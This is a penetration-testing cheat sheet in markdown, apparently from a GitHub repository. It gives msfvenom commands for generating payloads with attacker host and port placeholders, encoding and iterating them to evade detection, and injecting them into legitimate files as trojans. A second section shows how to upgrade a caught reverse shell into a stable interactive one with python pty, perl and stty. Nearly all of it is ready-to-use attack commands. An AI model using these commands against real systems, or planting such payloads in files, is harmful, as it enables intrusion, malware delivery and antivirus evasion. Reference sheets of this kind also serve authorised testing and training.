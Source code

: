 ### msfvenom
List payloads
```shell
msfvenom --list payloads
```
- **Generating** a payload
```bash
msfvenom -a [architecture] -p [payload] --platform [os] LHOST="[LHOST]" LPORT="[LPORT]" -f [file type] > [file]
```
- List all payload **formats**
```bash
msfvenom --list formats
```
- List all encoders
```bash
msfvenom --list encoders
```
- **Encoding** a payload
```bash
msfvenom -a [architecture] -p [payload] --platform [os] LHOST="[LHOST]" LPORT="[LPORT]" -f [file type] **-e [encoder]** > [file]
```
- **Iterating** encoders
```bash
msfvenom -a [architecture] -p [payload] --platform [os] LHOST="[LHOST]" LPORT="[LPORT]" -f [file type] -i [iterations] -e [encoder] > [file]
```
- Copying a legitimate **file format**
```bash
msfvenom -a [architecture] -p [payload] --platform [os] LHOST="[LHOST]" LPORT="[LPORT]" -f [file type] -i [iterations] -e [encoder] -x [legitimate file PATH] > [file]
```
- **Injecting** payload into file
```bash
msfvenom -a [architecture] -p [payload] --platform [os] LHOST="[LHOST]" LPORT="[LPORT]" -f [file type] -i [iterations] -e [encoder] -x [legitimate file PATH] -k > [file]
```
### Upgrading Shell
Check tty
```bash
tty
```
Spawning Interactive shell
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")' 
/bin/bash -i
perl -e 'exec "/bin/bash"'
```
Stable shell environment
```bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
export SHELL=bash
export TERM=xterm-256color
alias ll='clear ; ls -lsaht --color=auto'
Ctrl + Z
exec bash --login # Kali Linux Zsh may break stty conver to Bash
ps -p $$ <- this is to confirm
stty raw -echo ; fg ; reset
stty columns 200 rows 200
```
